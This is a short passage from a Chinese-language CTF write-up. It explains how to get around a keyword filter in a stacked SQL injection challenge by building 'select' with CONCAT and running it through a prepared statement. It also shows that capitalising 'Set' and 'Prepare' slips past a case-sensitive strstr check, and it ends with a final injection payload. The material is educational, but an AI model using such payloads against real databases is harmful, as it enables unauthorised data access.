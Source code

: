 ![upload successful](./images/pasted-561.png)

但是不能用select

使用预编译,concat()出一个'select',然后预编译这条语句，在执行它，构造payload:
{% codeblock lang:PHP %}
set @sql = CONCAT('se','lect * from `1919810931114514`;');
prepare stmt from @sql;
EXECUTE stmt;
{% endcodeblock %}

合在一起就是我们的payload
{% codeblock lang:PHP %}
payload:-1';set @sql = CONCAT('se','lect * from `1919810931114514`;');prepare stmt from @sql;EXECUTE stmt;#

=>strstr($inject, "set") && strstr($inject, "prepare")
{% endcodeblock %}

报错，过滤了set和prepare，利用大写绕过

最终payload:
{% codeblock lang:PHP %}
payload:-1';Set @sql = CONCAT('se','lect * from `1919810931114514`;');Prepare stmt from @sql;EXECUTE stmt;#
{% endcodeblock %}
